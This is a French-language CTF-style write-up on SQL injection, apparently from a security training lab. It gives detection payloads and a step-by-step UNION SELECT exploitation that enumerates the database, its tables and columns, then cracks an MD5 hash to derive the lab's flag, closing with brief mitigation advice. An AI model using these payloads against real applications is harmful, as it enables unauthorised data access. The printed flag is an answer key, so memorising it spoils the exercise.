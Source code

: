 # Nom de la faille
Injection SQL

## Définition
Les injections SQL sont une technique utilisée par des utilisateurs malveillants pour manipuler les requêtes SQL envoyées par une application web à sa base de données.

## Risques
Les injections SQL présentent plusieurs risques majeurs pour la sécurité des applications web :

- **Accès non autorisé aux données**
- **Modification des données**
- **Exécution de commandes**
- **Déni de service**

## Détection et Exploitation

### Détection
1. **Test des entrées utilisateur** :
   - Ajoutez des payloads spécifiques après le nom d'utilisateur pour voir si cela provoque des erreurs ou modifie le comportement de la page. Exemples de payloads : `'`, `"`, `#`, `;`, `)`.
   - Exemple : `1 OR 1=1` peut afficher une erreur et révéler la requête SQL dans l'URL.

2. **Analyse des erreurs** :
   - Observez les messages d'erreur retournés par l'application. Les erreurs SQL peuvent révéler des informations sur la structure de la base de données et les requêtes utilisées.

### Exploitation

1. **Trouver le nombre de champs** :
   - Utilisez `ORDER BY` pour déterminer le nombre de champs dans la requête. Par exemple, `1 ORDER BY 2` peut renvoyer une erreur si le champ n'existe pas.
   - Une fois le nombre de champs déterminé, utilisez `UNION SELECT` pour extraire des informations. Par exemple, `1 UNION SELECT 1, 2` pour vérifier le nombre de champs.

2. **Extraire des informations**

   - **Obtenir le nom de la base de données** :
     - Utilisez la requête `1 UNION SELECT 1, database()` pour obtenir le nom de la base de données actuelle.
     - Exemple de résultat : `Member_images`.

   - **Obtenir les noms des tables** :
     - Utilisez la requête `1 UNION SELECT 1, TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = CHAR(77,101,109,98,101,114,95,105,109,97,103,101,115)` pour obtenir les noms des tables dans la base de données.
     - Exemple de résultat : `list_images`.

   - **Obtenir les noms des colonnes** :
     - Utilisez la requête `1 UNION SELECT 1, COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = CHAR(77,101,109,98,101,114,95,105,109,97,103,101,115) AND TABLE_NAME = CHAR(108,105,115,116,95,105,109,97,103,101,115)` pour obtenir les noms des colonnes de la table `list_images`.
     - Exemple de résultat : `id, url, title, comment`.

   - **Obtenir des données spécifiques** :
     - Utilisez la requête `1 UNION SELECT 1, url FROM list_images` pour obtenir les URLs des images.
     - Utilisez la requête `1 UNION SELECT 1, title FROM list_images` pour obtenir les titres des images.

   - **Décryptage du flag** :
     - Utilisez un outil de décryptage MD5, comme [dcode.fr](https://www.dcode.fr/md5-hash), pour décrypter le hash MD5 obtenu.
       - Exemple de hash MD5 : `1928e8083cf461a51303633093573c46`.
       - Exemple de résultat : `albatroz`.
     - Appliquez la fonction de hachage SHA-256 au mot décrypté pour obtenir le flag final.
       - Exemple de résultat : `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`.

## Comment l'éviter

1. **Utiliser des requêtes préparées**
2. **Valider et échapper les entrées utilisateur**
3. **Utiliser des frameworks sécurisés**

## Source
- https://www.vaadata.com/blog/fr/injections-sql-principes-impacts-exploitations-bonnes-pratiques-securite/
- https://zestedesavoir.com/tutoriels/945/les-injections-sql-le-tutoriel/les-injections-sql-classiques/affichage-denregistrements/
- https://tcm-sec.com/avoid-or-1-equals-1-in-sql-injections/
- https://www.w3schools.com/sql/sql_injection.asp

